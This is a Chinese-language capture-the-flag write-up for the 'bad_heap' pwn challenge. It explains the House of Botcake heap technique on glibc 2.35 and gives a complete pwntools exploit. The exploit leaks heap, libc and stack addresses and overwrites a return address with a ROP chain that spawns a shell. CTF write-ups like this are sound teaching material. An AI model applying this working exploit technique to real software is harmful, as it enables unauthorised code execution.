

# bad_heap

> 禁止libc中的堆

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.35-0ubuntu3.7|

## 解题思路

还没学过 House of Botcake，看见题目里 `show` 都没限制索引，就直接读靠任意索引读信息了，
写都写完了，发现远程读出来是空的，不知道限制了什么，反正既拿不到 pie_base 也拿不到
libc_base。我说出题人也是高手，故意浪费一下我的时间。

比赛结束以后才知道要用 [House of Botcake]，大致原理就是在有 double free 的条件下，
由于 unsorted bin consolidate 不会清除堆块元数据，因此被扩展的堆块仍然能被再次释放，
从而能被合并后的堆块覆写 `fd`，实现任意分配。具体打法如图所示。



[House of Botcake]: https://github.com/shellphish/how2heap/blob/master/glibc_2.35/house_of_botcake.c

题目还限制了不能任意分配到 libc 中 `.data` 段的位置，导致不能直接打 IO，必须先分配到 `environ`，
读取栈地址，再打栈才行。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './bad_heap'

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t)
    else:
        t = remote('45.40.247.139', 15453)
    elf = ELF(EXE)
    libc = elf.libc

    def add(idx: int, size: int, buf: bytes):
        t.sendlineafter(b'2.dele', b'1')
        t.sendlineafter(b'idx', str(idx).encode())
        t.sendlineafter(b'size', str(size).encode())
        t.sendafter(b'content', buf)

    def dele(idx: int):
        t.sendlineafter(b'2.dele', b'2')
        t.sendlineafter(b'idx', str(idx).encode())

    def show(idx: int) -> bytes:
        t.sendlineafter(b'2.dele', b'3')
        t.sendlineafter(b'idx:\n', str(idx).encode())
        return t.recvuntil(b'1.add\n', True)

    # Step 1: leak bases via uaf, free 0-6 to fill tcache, then free 8
    for i in range(9):
        add(i, 0xf8, b'skip')
    add(9, 0x28, b'guard')
    for i in range(6, -1, -1):
        dele(i)
    dele(8)
    heap_base = u64(show(6)[:8]) << 12
    libc_base = u64(show(8)[:8]) - 0x21ace0
    success(GOLD_TEXT(f'Leak heap_base: {heap_base:#x}'))
    success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
    libc.address = libc_base

    def PROTECT_PTR(ptr: int, val: int):
        return (ptr >> 12) ^ val

    # Step 2: perform House of Botcake to leak environ
    dele(7)                 # trigger consolidation
    add(0, 0xf8, b'skip')   # take back 0 as we need to free 8 on chain
    dele(8)
    # overlap chunk to write arb addr on chain
    add(7, 0x1f8, flat({
        0xf8: [0x101, PROTECT_PTR(heap_base, libc.symbols['environ'] - 0x10)],
    }, filler=b'\0'))
    add(8, 0xf8, b'skip')
    add(10, 0xf8, b'whatever')
    stack = u64(show(10)[0x10:0x18])
    success(GOLD_TEXT(f'Leak environ: {stack:#x}'))

    gadgets = ROP(libc)
    chain = [
        gadgets.rdi.address, next(libc.search(b'/bin/sh\0')),
        gadgets.rsi.address, 0,
        gadgets.rdx.address, 0, 0, # pop rdx; pop xxx
        libc.symbols['execve'],
    ]

    # Step 3: reuse House of Botcake primitive to rewrite add return addr
    target = stack - 0x148
    info(f'Overwriting add return address @ {target:#x}')
    dele(8)
    dele(7)
    add(7, 0x1f8, flat({
        0xf8: [0x101, PROTECT_PTR(heap_base, target)],
    }, filler=b'\0'))
    add(8, 0xf8, b'skip')
    add(11, 0xf8, flat(0, chain))

    # Trigger execve("/bin/sh", 0, 0) when return from add
    t.clean()
    t.interactive()
    t.close()
```

## 参考

1. [how2heap/glibc_2.35/house_of_botcake.c](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/house_of_botcake.c)
